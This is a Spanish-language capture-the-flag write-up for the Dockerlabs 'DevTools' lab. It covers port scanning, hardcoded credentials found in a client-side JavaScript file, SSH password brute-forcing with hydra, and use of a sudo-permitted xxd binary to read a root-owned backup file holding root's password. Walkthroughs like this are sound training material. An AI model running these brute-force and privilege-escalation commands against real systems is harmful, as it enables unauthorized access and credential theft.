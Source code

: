 
# Writeup Template: Maquina `[ DevTools ]`

- Tags: #DevTools
- Dificultad: `[ Media ]`
- Plataforma: `[ Dockerlabs ]`

---
## Enlace al laboratorio
[Maquina DevTools](https://mega.nz/file/TQsx3SLY#ZtO_3auMe422od0KtMfC8mxAKWIgWwELiQ0qhADz3B0)

## Configuracion del Entorno
```bash
# Comandos para desplegar el laboratorio
7z x DevTools.zip
sudo bash auto_deploy.sh devtools.tar
```

---
## Fase de Reconocimiento

### Direccion IP del Target
```bash
172.17.0.2
```
### Identificación del Target
Lanzamos una traza **ICMP** para determinar si tenemos conectividad con el target
```bash
ping -c 1 172.17.0.2 
```

### Determinacion del SO
Usamos nuestra herramienta en python para determinar ante que tipo de sistema opertivo nos estamos enfrentando
```bash
wichSystem.py 172.17.0.2
# TTL: [ 64 ] -> [ Linux ]
```

---
## Enumeracion de Puertos y Servicios
### Descubrimiento de Puertos
```bash
# Escaneo rápido con herramienta personalizada en python
escanerTCP.py -t 172.17.0.2 -p 1-65000

# Escaneo con Nmap
nmap -p- -sS --open --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts
extractPorts allPorts # Parseamos la informacion mas relevante del primer escaneo
```

### Análisis de Servicios
Realizamos un escaneo exhaustivo para determinar los servicios y las versiones que corren detreas de estos puertos
```bash
nmap -sCV -p22,80 172.17.0.2 -oN targeted
```

**Servicios identificados:**
```bash
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u3 (protocol 2.0)
80/tcp open  http    Apache httpd 2.4.62 ((Debian))
```
---

## Enumeracion de [Servicio  Principal]
direccion **URL** del servicio:
```bash
http://172.17.0.2
```
### Tecnologías Detectadas
Realizamos deteccion de las tecnologias empleadas por la web
```bash
whatweb http://172.17.0.2 # No reporta nada critico
```

Lanzamos un script de **Nmap** para reconocimiento de rutas
```bash
nmap --script http-enum -p 80 172.17.0.2 # No reporta nada critico
```

#### Codigo fuente:
Revisando el codigo fuente tenemos la siguiente referencia que apunta a un archivo de tipo **backup**
```bash
<script src="[backupp.js](view-source:http://172.17.0.2/backupp.js)" defer></script>
```

Asi que ingresaremos a esa ruta para ver que es lo que contiene ya que la pagina principal nos pide contrasena para ver su contenenido
```bash
http://172.17.0.2/backupp.js
```

Logramos ver el codigo sin que nos pida contrasena:
```bash
const usuario = "chocolate";
const contrasena = "chocolate"; // Antigua contraseÃ±a baluleroh

const solicitarAutenticacion = () => {
    const credenciales = prompt("Ingrese las credenciales en el formato usuario:contraseÃ±a:");

    if (credenciales) {
        const [entradaUsuario, entradaContrasena] = credenciales.split(":");

        if (entradaUsuario === usuario && entradaContrasena === contrasena) {
            alert("AutenticaciÃ³n exitosa. Â¡Bienvenido!");
        } else {
            alert("AutenticaciÃ³n fallida. IntÃ©ntelo de nuevo.");
            solicitarAutenticacion(); // Reintentar autenticaciÃ³n
        }
    } else {
        alert("Debe ingresar las credenciales.");
        solicitarAutenticacion();
    }
};

solicitarAutenticacion();
```

Viendo tenemos dos posibles contrasenas que de igual manera probaremos por **ssh** de mientras ingresamos las credenciales para la web
```bash
chocolate:chocolate
```

### Descubrimiento de Rutas
```bash
gobuster dir -u http://172.17.0.2/ -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-big.txt -t 20 --add-slash
```

**Hallazgos Relevantes:**
	No reporta nada critico

### Descubrimiento de Archivos
```bash
gobuster dir -u http://172.17.0.2/ -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-big.txt -t 20 -x php,php.back,backup,sh,txt,html,js
```

- **Hallazgos**:
	No reporta nada critico

---
## Explotacion de Vulnerabilidades
### Vector de Ataque
Realizaremos ataques por **ssh** para intentara descubrir credenciales validas para estos usuarios

### Ejecucion del Ataque
Con este no encontramos nada 
```bash
hydra -l chocolate -P /usr/share/wordlists/rockyou.txt -f ssh://172.17.0.2
```

Probaremos la contrasena antigua para ver si existe reciclamiento de contrasenas:
```bash
hydra -L /usr/share/SecLists/Usernames/xato-net-10-million-usernames.txt -p baluleroh -f ssh://172.17.0.2
```

Tenemos una contrasena valida:
```bash
[22][ssh] host: 172.17.0.2   login: carlos   password: baluleroh
```
### Intrusion
```bash
# Reverse shell o acceso inicial
ssh-keygen -R 172.17.0.2 && ssh carlos@172.17.0.2 # ( baluleroh )
```

---
## Escalada de Privilegios
### Explotacion de Privilegios

###### Usuario `[ carlos ]`:
Listando los permisos de este usuario:
```bash
sudo -l

User carlos may run the following commands on caffc947401a:
    (ALL) NOPASSWD: /usr/bin/ping
    (ALL) NOPASSWD: /usr/bin/xxd
```

Revisando en los archivos de este usuario tenemos: **nota.txt**
```bash
cat nota.txt 

Backup en data.bak dentro del directorio de root
```

Asi que usaremos el binario **xxd** para poder leer su contenido:
```bash
sudo /usr/bin/xxd /root/data.bak | xxd -r
```

Tenemos las credenciales de **root**
```bash
root:balulerito
```

Migrando a **root**
```bash
# Comando para escalar al usuario: ( root )
su root # ( balulerito )
```

---
## Evidencia de Compromiso
```bash
# Captura de pantalla o output final
-rw-r--r--  1 root root   16 Dec 15 08:36 data.bak

root@caffc947401a:~# whoami
root
```

---
## Lecciones Aprendidas
1. Aprendimos a ver rutas alternas desde el codigo fuente de la web
2. Aprendimos ataque por diccionario por ssh
3. Aprendimos a explotar el bianrio de **xxd** para leer contenido sensible.

## Recomendaciones de Seguridad
- Evitar dar permisos de usuario a binarios privilegiados
